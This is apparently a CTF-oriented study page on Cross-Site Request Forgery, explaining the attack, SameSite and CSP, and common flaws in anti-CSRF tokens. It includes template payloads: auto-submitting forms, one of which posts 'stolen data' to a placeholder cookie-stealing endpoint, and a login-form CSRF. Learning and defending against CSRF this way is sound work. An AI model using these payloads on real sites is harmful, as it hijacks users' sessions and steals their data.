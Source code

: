 # Cross-Site Request Forgery

[![introductiontowebapplications](../../../../_badges/htb/introductiontowebapplications.svg)](https://academy.hackthebox.com/course/preview/introduction-to-web-applications)
[![session_security](../../../../_badges/htb/session_security.svg)](https://academy.hackthebox.com/course/preview/session-security)
[![cross-site_request_forgery_prevention](../../../../_badges/owasp/cross-site_request_forgery_prevention.svg)](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html)
[![csrf_injection](../../../../_badges/poat/csrf_injection.svg)](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CSRF%20Injection)
[![csrf_0_protection](../../../../_badges/rootme/web_client/csrf_0_protection.svg)](https://www.root-me.org/en/Challenges/Web-Client/CSRF-0-protection)
[![csp_bypass_inline_code](../../../../_badges/rootme/web_client/csp_bypass_inline_code.svg)](https://www.root-me.org/en/Challenges/Web-Client/CSP-Bypass-Inline-code)
[![csp_bypass_jsonp](../../../../_badges/rootme/web_client/csp_bypass_jsonp.svg)](https://www.root-me.org/en/Challenges/Web-Client/CSP-Bypass-JSONP)
[![samcms](../../../../_badges/rootme/realist/samcms.svg)](https://www.root-me.org/en/Challenges/Realist/SamCMS)

<div class="row row-cols-lg-2"><div>

Fundamentally, Cross-Site Request Forgery (CSRF) refers to using the session of a user logged to a website to perform API calls without their consent. For instance, an API call to modify their password.

If a cookie was set with `SameSite: None` which is not the default, it can be accessed and exploited from any site.

Many modern browsers have built-in anti-CSRF measures, such as with the `Content-Security-Policy` header ([refer to CSP](files/csp.md)).

[XSS](/cybersecurity/red-team/s3.exploitation/vulns/web/xss.md) is a common attack technique to perform a CSRF attack, by injecting a form that automatically submit itself.

📚 During CTFs, it may take between one and five minutes.
</div><div>

You can find payloads on [PayloadsAllTheThings/CSRF](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Cross-Site%20Request%20Forgery). You can test the payload with a [HTTP Requests Grabber](/cybersecurity/red-team/_knowledge/topics/request_grabber.md) first during CTFs.

```html!
<form id="autosubmit" action="https://<target_form_URL>" method="post">
  <input type="text" name="xxx" value="yyy" hidden>
  <button type="submit">Submit</button>
</form>
<script>
 document.getElementById("autosubmit").submit();
</script>
```

```html!
<form id="fdata" action="//refer/to/stealing/cookies" method="POST">
<input type="hidden" id="data" name="data" value="nop" />
<input type="submit" value="Submit" />
</form>
<script defer>
document.getElementById('data').value='stolen data';
document.getElementById('fdata').submit();
</script>
```
</div></div>

<hr class="sep-both">

## Anti-CSRF Token

[![sqlmapessentials](../../../../_badges/htb/sqlmapessentials.svg)](https://academy.hackthebox.com/course/preview/sqlmap-essentials)
[![session_security](../../../../_badges/htb/session_security.svg)](https://academy.hackthebox.com/course/preview/session-security)
[![gitlabcve20237028](../../../../_badges/thm-p/gitlabcve20237028.svg)](https://tryhackme.com/r/room/gitlabcve20237028)
[![unbakedpie](../../../../_badges/thm-p/unbakedpie.svg)](https://tryhackme.com/r/room/unbakedpie)

<div class="row row-cols-lg-2"><div>

Some websites have a CSRF token, mostly attached to HTML forms, as a form of protection against CSRF attacks and other automation tools.

It's a generated value that is added to the form, often as a hidden HTML `<input>` field. It proves that someone submitting a form effectively visited the page with the form beforehand.

CSRF tokens should be randomly generated. Do not use `md5(username)` or similar guessable token generation functions.

Many tools have built-in switches to handle/bypass such forms.
</div><div>

A few other inappropriate settings

* The server only checks if the header is present
* The server only checks if the length of the token
* The server only checks the token if it was sent
* We can use someone else's CSRF token
* We can reuse a CSRF token
* Verb tampering may bypass CSRF verification

There is also the [Double-Submit Cookie Pattern](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html#alternative-using-a-double-submit-cookie-pattern) but it can be bypassed by giving an arbitrary value to both the cookie and the header.
</div></div>

<hr class="sep-both">

## Additional Payloads

<div class="row row-cols-lg-2"><div>

Login form

```html!
<form id="autosubmit" action="URL" method="post">
<input name="username" value="toto">
<input name="password" value="toto">
<button type="submit" class="btn btn-default">Submit</button>
</form>
```
</div><div>
</div></div>